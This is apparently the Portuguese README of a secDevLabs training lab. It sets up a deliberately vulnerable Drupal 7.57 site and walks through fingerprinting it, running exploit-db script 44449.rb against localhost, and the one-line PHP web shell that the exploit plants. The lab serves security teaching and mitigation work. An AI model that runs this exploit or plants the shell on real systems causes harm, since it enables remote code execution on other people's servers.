 # Cimentech

[Access content in English](README.md)

<p align="center">
    <img src="images/attack1.png"/>
</p>

Cimentech é um aplicativo web simples construído com Drupal que contém um exemplo de um componente com uma vulnerabilidade conhecida e seu principal objetivo é demonstrar como um invasor pode explorá-lo.

## Index

- [Definição](#O-que-significa-usar-componentes-desatualizados-e-vulneráveis)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluções)
- [Contribuição](#contribuição)

## O que significa usar componentes desatualizados e vulneráveis?

Imagine que componentes, como bibliotecas, frameworks e outros módulos de software, sejam executados com os mesmos privilégios do aplicativo. Se um componente vulnerável for explorado, esse ataque pode facilitar a perda grave de dados ou o controle do servidor. Aplicativos e APIs que usam componentes com vulnerabilidades conhecidas podem prejudicar as defesas de aplicativos e permitir vários ataques e impactos.

O principal objetivo deste aplicativo é discutir como os **componentes desatualizados e vulneráveis** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do secDevLabs sobre como mitigar essas falhas.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a6/cimentech
```

```sh
make install
```

Depois é só visitar [localhost][app] ! 😆

## Conheça o app 🏗

Para entender corretamente como esse aplicativo funciona, você pode:

- Visitar sua página inicial!

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### O uso de uma versão vulnerável do Drupal permite a execução remota de código

É possível acessar a aplicação web do servidor a partir da porta HTTP padrão 80, como mostra a imagem abaixo:

<img src="images/attack1.png" align="center"/>

Depois, dando uma olhada no arquivo `/robots.txt`, é possível encontrar o arquivo `CHANGELOG.txt` no campo `Disallow`, conforme ilustrado na imagem abaixo:

<img src="images/attack2.png" align="center"/>

Ao ser acessado, pode-se encontrar uma indicação da versão do Sistema de Gerenciamento de Conteúdo (Drupal), conforme mostrado abaixo:

<img src="images/attack3.png" align="center"/>

Tendo a versão do CMS, é possível verificar em [exploit-db][3] se há algum exploit associado a essa versão, neste caso, Drupal 7.57. Os resultados da pesquisa estão descritos na imagem abaixo:

<img src="images/attack4.png" align="center"/>

Ao usar [searchsploit](https://www.exploit-db.com/searchsploit), um invasor também pode encontrar esse mesmo resultado por meio de um terminal. Para instalá-lo, basta digitar o seguinte em seu terminal OSX (lembre-se de que pode acionar seu software antivírus):

```sh
⚠️ 'O próximo comando irá instalar vários códigos de exploração em seu sistema e muitos deles podem acionar alertas de antivírus'

brew install exploitdb
```

Em seguida, basta procurar a versão do CMS encontrada:

```sh
searchsploit drupal 7.
```

Se você estiver usando OSX, este comando o ajudará a copiar o exploit para sua pasta `/tmp`:

```
cp /usr/local/opt/exploitdb/share/exploitdb/exploits/php/webapps/44449.rb /tmp
```

## 🔥

Executando o código Ruby malicioso, temos evidências de que a execução remota de código é possível no servidor web, usando os seguintes comandos conforme mostrado abaixo: 

```sh
ruby /tmp/44449.rb http://localhost
```

<img src="images/attack5.png" align="center"/>

**NOTA**: Você precisa ter o Ruby instalado em seu sistema para executar o exploit, para informações sobre como instalá-lo, clique [aqui][1]!

**NOTA 2**: Se você encontrar um erro de execução ao tentar executar o exploit, consulte este [Problema][4] para obter informações sobre como proceder. 

A exploração funciona adicionando ao servidor um `s.php` malicioso, que permite a execução remota de código através do seguinte conteúdo malicioso:
         
```php
<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
```

Usando o "fake shell" do exploit, podemos digitar um comando, como `whoami`, para verificar se realmente temos um RCE no servidor, conforme mostra a imagem:

<img src="images/attack6.png" align="center"/>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Execute o código remotamente através do exploit acima

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3ACimentech)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:80
[secdevlabs]: https://github.com/globocom/secDevLabs
[1]: https://www.ruby-lang.org/en/documentation/installation/
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2021-apps/a6/Cimentech
[3]: https://www.exploit-db.com/
[4]: https://github.com/globocom/secDevLabs/issues/212
